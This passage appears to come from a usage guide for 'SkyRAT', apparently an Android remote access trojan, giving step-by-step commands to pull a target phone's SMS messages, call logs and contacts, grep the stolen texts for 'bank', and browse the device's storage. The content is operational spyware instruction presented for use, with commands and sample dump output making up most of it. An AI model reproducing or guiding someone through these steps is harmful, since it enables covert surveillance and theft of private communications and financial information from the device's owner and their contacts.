 ```
Device IP: 192.168.1.45
MAC Address: 02:00:00:00:00:00
```

### **Example 2: Communication Data Analysis**

Analyze communication patterns and contacts on the device.

#### **Step 1: Extract Communication Data**
```bash
# Get SMS messages
SkyRAT:/> getSMS inbox
SkyRAT:/> getSMS sent

# Get call history
SkyRAT:/> getCallLogs

# Get contact list
SkyRAT:/> getContacts
```

#### **Step 2: Analyze Extracted Data**
```bash
# Check extracted files
ls -la dumps/

# Example analysis
cat dumps/inbox_SMS_20240315-143022.txt | grep -i "bank"
wc -l dumps/Call_Logs_20240315-143045.txt
```

#### **Sample Output Structure:**
```
dumps/
├── inbox_SMS_20240315-143022.txt
├── sent_SMS_20240315-143045.txt
├── Call_Logs_20240315-143123.txt
└── Contacts_20240315-143156.txt
```

### **Example 3: File System Exploration**

Explore the device file system and extract specific files.

#### **Step 1: File System Navigation**
```bash
# Start from root
SkyRAT:/> ls /

# Explore user data
SkyRAT:/> cd /sdcard
SkyRAT:/> ls

# Check Downloads folder
SkyRAT:/> cd Download
SkyRAT:/> ls
```
